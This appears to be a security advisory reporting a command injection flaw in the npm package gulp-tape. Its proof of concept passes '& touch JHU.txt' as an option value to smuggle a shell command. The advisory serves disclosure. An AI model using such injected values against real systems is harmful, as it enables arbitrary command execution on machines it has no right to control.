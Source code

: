 # Overview
`gulp-tape` is a to run Tape tests in Gulp, this package are vulnerable to Command Injection. It is possible to inject arbitrary commands as part of `gulp-tape` options.

# Proof of Concept
```
var root = require("gulp-tape");
var gulp = require("gulp");
var options = {
  name: "& touch JHU.txt"
}
gulp.src("./gulp-tape.js")
  .pipe(root(options));
```